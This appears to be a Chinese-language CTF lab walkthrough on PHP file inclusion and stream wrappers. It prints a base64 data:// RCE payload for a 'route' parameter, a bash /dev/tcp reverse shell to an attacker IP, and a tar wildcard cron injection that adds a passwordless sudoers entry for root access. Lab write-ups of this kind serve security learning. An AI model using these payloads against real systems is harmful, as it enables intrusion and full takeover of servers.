










[TOC]

这个靶机涉及了一些比较新颖的知识点，比如远程文件包含（RFI），php伪协议等方法，下面先事先说一下知识点

| 对比项   | LFI 本地文件包含                     | RFI 远程文件包含            |
| -------- | ------------------------------------ | --------------------------- |
| 文件来源 | 服务器本机磁盘                       | 外部远程服务器              |
| 远程 URL | ❌ 不支持 http/https                  | ✅ 支持 http/https/ftp       |
| PHP 配置 | 无特殊要求                           | 需要 `allow_url_include=On` |
| 代码执行 | 不能直接执行远程代码，靠文件内容注入 | 直接加载远程代码执行        |
| 现状     | 现在 Web 漏洞里依然很常见            | PHP5.2 后极少见到           |

## LFI（Local File Inclusion，本地文件包含）

原理：代码直接把传入参数拼接到文件路径，**读取本机磁盘文件**，不支持远程 URL。

## RFI（Remote File Inclusion，远程文件包含）

## 伪协议

原理：include/require 支持**URL 协议**，可以直接引入外部网站的文件并执行里面代码。

| 伪协议                        | 什么时候适用               | 关键条件                            | 典型场景               |
| ----------------------------- | -------------------------- | ----------------------------------- | ---------------------- |
| **php://filter**              | 读 PHP 源码、做 LFI→RCE 链 | **无需任何配置**，默认环境就能用    | CTF 拿源码、代码审计   |
| **file://**                   | 读本地文本文件             | 无特殊要求                          | /etc/passwd、hosts     |
| **glob://**                   | 枚举 / 探测目录文件        | PHP 5.3+                            | 不知道文件名时爆破     |
| **http(s)://（RFI）**         | 远程文件加载并执行         | `allow_url_include=On` + 目标能出网 | 有 VPS / 攻击机        |
| **data://**                   | URL 内嵌代码直接 RCE       | `allow_url_include=On`              | CTF 高频、没外网服务器 |
| **php://input**               | POST 体内容当代码执行      | `allow_url_include=On`              | 能发 POST 时           |
| **zip://**                    | 执行压缩包内 PHP           | 服务器上**已存在** zip 文件         | 能传 zip 不能传 php    |
| **phar://**                   | 触发反序列化攻击           | 存在 phar 文件 + 文件操作函数       | 有上传点的场景         |
| **expect://**                 | 直接执行系统命令           | 安装了 expect 扩展                  | 极罕见                 |
| **php://temp / php://memory** | 临时数据流                 | 无                                  | 冷门绕过               |

------

# 信息收集

这个靶机无用信息说的简要一点

- 经过tcp详细扫描和漏洞扫描以及udp端口扫描没有什么重要信息，通过gobuster和dirb爆破出的目录只有一个info.php可以观察

# phpinfo文件分析



```
[指纹区]
□ PHP版本：是否存在已知CVE
□ OS & 内核版本：本地提权EXP
□ SAPI：CGI / FPM / Apache2handler
□ Web中间件：lighttpd / nginx / apache
□ DocumentRoot 网站物理路径
□ php.ini 物理路径

[核心配置]
□ allow_url_fopen
□ allow_url_include        ← RFI 判定
□ open_basedir             ← LFI 读取边界
□ disable_functions        ← 命令执行能力
□ cgi.fix_pathinfo         ← 文件解析漏洞

[Session & 文件上传]
□ file_uploads
□ upload_tmp_dir
□ session.save_path
□ session.upload_progress.enabled

[扩展模块]
□ posix / sockets / openssl
□ imagick / FFI            ← disable_functions 绕过
□ phar.readonly
□ PDO 驱动（mysql/pgsql）

[信息泄露]
□ display_errors
□ expose_php
□ Environment 环境变量（密码/密钥/AK-SK）
```

- *allow_url_fopen*配置项允许PHP通过URL（如HTTP或HTTPS）打开文件，这影响到PHP中与文件操作相关的函数

- *allow_url_include*配置项专门针对PHP的*include*、*include_once*、*require*和*require_once*语句。当*allow_url_include*设置为*On*时，PHP允许通过URL包含并执行远程PHP文件。这意味着可以从远程服务器包含并执行PHP代码(RFI)

所以此时我们两种方法，通过靶机的参数去访问本机的木马文件，或者利用伪协议进行远程命令执行（RCE）

- 我用的是data伪协议，因为`allow_url_include=On`，所以我们可以直接url内嵌代码直接RCE（用RFI的话就是route=http://192.168.xx.xx/reverseshell）

# 80端口分析

默认界面的三个按钮每按一次都会另打开一个新界面，因此猜测是否有一个参数可以达成这样的效果



确实存在参数route，我们可以对route参数进行data伪协议或者远程文件包含

先测试

```
data://text/plain;base64,PD9waHAgc3lzdGVtKCdscycpOz8+
```



有一点需要注意

```
<?php system('ls');?>
```

的base64编码确实是PD9waHAgc3lzdGVtKCdscycpOz8+,而且POST传参的方式和GET有异，一般不会进行url编码，如果进行url编码的话+会被识别为空格，导致php解析器解码后得到的信息和我们预期的不一样（在；和？中间加个空格其实也行，不过本质没什么区别）

- 但是抓包有一行显示Content-Type:application/x-www-form-urlencoded，所以参数也是要经过url编码的，因此要将+改为%2B，这样经过url解析后再解码base64，刚好能接上

- 看到回显有效，尝试执行反弹shell

```
<?php exec("/bin/bash -c 'bash -i >& /dev/tcp/192.168.174.128/12345 0>&1'");?>
```



同样将+替代为%2B



使用

```
nc -lvnp 12345
```

或者

```
msfconsole
use exploit/multi/handler
```

进行监听



成功连接

# 提权

```
cat /etc/crontab
```

发现每分钟会以root身份执行/backup/backup.sh文件

```
cat /backup/backup.sh
```



这里涉及到tar的一个新提权方法,Tar Wildcard 通配符注入（Cron 定时任务提权）

## Tar Wildcard 通配符注入

- 场景：root 定时任务执行类似命令，**目录可写**

```
#crontab里root执行
tar -czf /backup/backup.tar.gz *
```

shell会把*展开成当前目录所有文件名，文件名可以伪装成tar参数（文件名以--开头）

`tar` 命令支持一些特殊的选项，例如 `--checkpoint` 和 `--checkpoint-action`，它们通常用于在打包过程中显示进度或执行指定操作：

- `--checkpoint=N`：每处理 N 个文件后输出一个检查点
- `--checkpoint-action=ACTION`：在到达检查点时执行指定的动作

当我们在命令行中执行 `tar cf archive.tar *` 时，shell 会将 `*` 扩展为当前目录下的所有文件名

如果这些文件名恰好以 `--` 开头（例如 `--checkpoint=1`），那么它们会被 `tar` 解释为命令行选项，而不是普通的文件名

因此，攻击者可以在目标目录下创建具有特定名称的文件，当 `tar` 运行时，这些文件名就会被当作选项传递给 `tar`

从而触发 `--checkpoint` 机制，进而执行攻击者指定的命令

- `--checkpoint-action=exec=xxx`：exec 执行命令，继承 tar 的权限 (root)

```
cd /var/www/html
echo '' > "--checkpoint=1"
echo '' > "--checkpoint-action=exec=sh shell.sh"
echo "echo 'www-data ALL=(ALL) NOPASSWD:ALL' >> /etc/sudoers" > shell.sh
```

- www-data ALL=(ALL:ALL) ALL 和www-data ALL=(ALL) NOPASSWD:ALL的区别
- www-data ALL=(ALL:ALL) ALL

- www-data ALL=(ALL) NOPASSWD:ALL

sudoers 通用语法：`用户 主机=(可切换用户:可切换组) [标签:]命令`

- 全部执行完后等待一分钟（不用给shell.sh加执行权限是因为由root用户执行，默认有权限）

  ```
  sudo -i
  ```

  



无需密码直接提权成功
